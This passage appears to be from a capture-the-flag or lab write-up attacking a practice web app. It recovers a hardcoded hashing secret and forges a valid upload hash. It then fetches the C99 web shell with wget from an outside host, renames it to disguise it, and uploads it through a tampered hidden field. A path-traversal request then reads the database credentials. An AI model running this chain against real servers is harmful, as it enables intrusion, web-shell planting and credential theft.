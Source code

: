 ```php
    $data['file_hash'] = false;

}
```

And viewing the referenced `hashFile()` function we see the following:

```php
private function hashFile($fileName) {

    // Super duper, top secret hashing algorithm
    return sha1($fileName . 'ErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd');

}
```

That's a bingo! We now have the method of file hashing along with the secret
string that gets concatenated with the file name. With this information we can
actively exploit the file upload form and generate a valid hash for any file we
choose.

## Shelling the Server

It's now time to grab a fresh copy of [C99](http://www.r57shell.net/) (I also
recommend [Weevely](https://github.com/epinna/weevely3) but for this example
we'll stick to the more simple C99 shell) and generate a valid hash for
uploading:

    $ wget http://www.r57shell.net/shell/c99.txt
    $ mv c99.txt not_a_shell.php
    $ echo -n "not_a_shell.phpErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd" | sha1sum

This gives us:

    90d5aeb035bbcd0df8f5e84721d3eb8f3321ff8c

Now we can go back to the upload form, select our `c99.php` file, then using
Firebug or the browsers built-in web developer tools modify the value of the 
hidden `file_hash` element and set it to our pre-generated hash. This time, when
we submit the form, the file upload succeeds without error. Navigating to 
`/uploads/not_a_shell.php` now brings up our shell.

From here accessing any aspect of the web application or it's database are
trivial. Let's investigate the database now. First, nab the credentials by
navigating to `/images/media?file=....//....//Config/database.php`:

```php
public $default = array(
    'datasource' => 'Database/Mysql',
    'persistent' => false,
    'host'       => 'localhost',
    'login'      => 'spookileaks',
    'password'   => 'rmPtShWVyrCcxfJaBvsPL4t2',
    'database'   => 'spookileaks',
    'prefix'     => '',
    //'encoding' => 'utf8',
);
```
